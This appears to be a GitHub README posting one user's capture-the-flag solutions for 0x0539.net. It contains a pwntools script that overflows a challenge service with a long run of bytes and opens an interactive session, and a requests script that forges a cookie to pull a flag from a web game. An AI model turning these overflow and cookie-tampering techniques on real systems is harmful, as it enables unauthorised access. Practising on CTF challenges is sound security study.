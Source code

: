 <h1 align="center">
	<img src="https://lh3.googleusercontent.com/proxy/CpoUd8Vc7hVO5iuIL7QkWnlU5yt5dADWL_4vnIxil9CLnk9JokqiAJpoQcqe5jJW6doC-BgT-yi8" width="150px"><br>
    0x0539 - Here I will post my solutions/exploits for some of the challenges on 0x0539.net
</h1>
<p align="center">
	This repository will contain my exploits for solving some challenges on 0x0539.net. Please don't steal my code, and claim it as your own.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
     </a>
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Deno-1.0.0+-7DCDE3?style=for-the-badge" alt="Node">
     </a>
</p>

## SIGSEGV
```py
from pwn import *


# SIGSEGV
# Date: 08/21/21
# Made by 0x1CA3


class Pwn():
	def __init__(self, host, port):
		self.host = host
		self.port = port

	def exploit(self):
		payload = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
		connection = remote(self.host, self.port)
		connection.sendline(payload)
		connection.interactive()

def main():
	host = "challenges.0x0539.net"
	port = 7071
	pwn = Pwn(host, port)
	pwn.exploit()

if __name__ == "__main__":
	try:
		main()
	except:
		print("[!] Error running exploit! [!]")
```

## Lucky Feeling
```py
import requests

# Lucky Feeling
# Date: 08/22/21
# Author: 0x1CA3


class Pwn():
    def __init__(self, host):
        self.host = host
    
    def exploit(self):
        s = requests.Session()
        site_cookies = {"rounds": "999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999"}
        
        a = s.get(self.host, cookies=site_cookies)
        
        for i in range(99):
            a = s.post(self.host, cookies=site_cookies, data={"guess": ""})

        print(""" 
        [+] Flag output [+]
        -------------------""")
        print(s.post(self.host, cookies=site_cookies, data={"guess": ""}).text)

def main():
    host = "http://challenges.0x0539.net:3002/"
    Pwn(host).exploit()
main()

if __name__ == "__main__":
    main()
```
## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
